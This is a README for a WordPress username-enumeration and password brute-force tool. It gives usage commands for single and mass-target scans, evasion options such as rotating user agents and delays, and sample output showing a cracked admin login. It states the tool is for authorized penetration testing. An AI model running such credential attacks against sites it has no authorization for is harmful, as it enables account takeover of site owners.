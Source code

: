 # WordPress Username Enumeration and Password Brute Force Tool

A powerful Python-based tool for WordPress security testing. This tool efficiently enumerates WordPress usernames and performs targeted password brute force attacks using common password patterns.

Created by Chirag Artani from [3rag.com](https://3rag.com)

## Features

- **Username Enumeration**: Discovers WordPress usernames through multiple methods:
  - Author page enumeration (`/?author=X`)
  - WordPress REST API (`/wp-json/wp/v2/users`)

- **Intelligent Password Testing**: Tests discovered usernames against:
  - The username itself as password
  - Username with common suffixes (123, admin123, etc.)
  - Common default passwords

- **Performance Optimized**:
  - Multi-threading for concurrent password attempts
  - Site-level parallelism for testing multiple WordPress installations
  - Smart cancellation of remaining password attempts once credentials are found

- **Stealth Features**:
  - Rotating user agents to avoid detection
  - Configurable delays between requests
  - Session management for efficient requests

- **User-Friendly Output**:
  - Real-time status updates with timestamps
  - Color-coded output for easy reading
  - Immediate recording of successful logins
  - Comprehensive summary reports

## Installation

```bash
# Clone the repository
git clone https://github.com/chiragartani/wp-enum-brute.git
cd wp-enum-brute

# Install required dependencies
pip install requests colorama
```

## Usage

### Basic Usage

```bash
# Scan a single WordPress site
python wp_enum_brute.py -t example.com

# Scan multiple sites from a file
python wp_enum_brute.py -l targets.txt
```

### Command Line Arguments

```
-t, --target       Target URL (e.g., http://example.com)
-l, --url-list     File containing list of target URLs (one per line)
-o, --output       Output file for successful logins (default: wp_successful_logins.txt)
-w, --workers      Number of concurrent password attempts per target (default: 10)
-s, --site-workers Number of concurrent sites to scan (default: 5)
-v, --verbose      Enable verbose output (shows failed attempts)
--timeout          Request timeout in seconds (default: 10)
--only-enumerate   Only enumerate usernames, skip password brute force
--delay            Delay between requests in seconds (default: 0)
--resume           If script gets stopped by anything, you can continue from where it was stopped by --resume tag
```

### Examples

```bash
# Only enumerate usernames without brute forcing passwords
python wp_enum_brute.py -t example.com --only-enumerate

# Scan with higher concurrency (20 password attempts, 10 sites at once)
python wp_enum_brute.py -l targets.txt -w 20 -s 10

# Add delay between requests to avoid detection (500ms)
python wp_enum_brute.py -l targets.txt --delay 0.5

# Save results to a specific file
python wp_enum_brute.py -t example.com -o results/wordpress_logins.txt

# Show all login attempts (verbose mode)
python wp_enum_brute.py -t example.com -v

# You can resume from it was stopped, will continue from that place
python wp_enum_brute.py -l targets.txt --resume
```

## Output Example

```
[10:15:23] [INFO] Enumerating usernames from http://example.com
[10:15:24] [SUCCESS] Found username via redirect: admin on http://example.com
[10:15:25] [SUCCESS] Found username in body: editor on http://example.com
[10:15:26] [INFO] Found 2 unique username(s) on http://example.com: admin, editor
[10:15:26] [INFO] Starting brute force against 2 username(s) on http://example.com with 10 workers
[10:15:26] [INFO] Queuing 15 passwords for username 'admin' on http://example.com
[10:15:26] [INFO] Queuing 15 passwords for username 'editor' on http://example.com
[10:15:28] [SUCCESS] ✓ SUCCESS: http://example.com - admin:admin123
[10:15:33] [INFO] Brute force completed on http://example.com. 17 attempts. 1 successful logins.

==================================================
[10:15:33] [SUCCESS] SUMMARY - Successful logins for http://example.com:
  ✓ http://example.com - admin:admin123
[10:15:33] [INFO] Results saved to wp_successful_logins.txt
==================================================
```

## Ethical Usage

This tool is intended for legitimate security testing with proper authorization. Unauthorized testing against websites you don't own is illegal and unethical. Always:

- Get written permission before testing
- Use responsibly and ethically
- Follow responsible disclosure practices

## Disclaimer

This tool is provided for educational and authorized penetration testing purposes only. The author is not responsible for any misuse or damage caused by this tool.

## License

This project is licensed under the MIT License - see the LICENSE file for details.
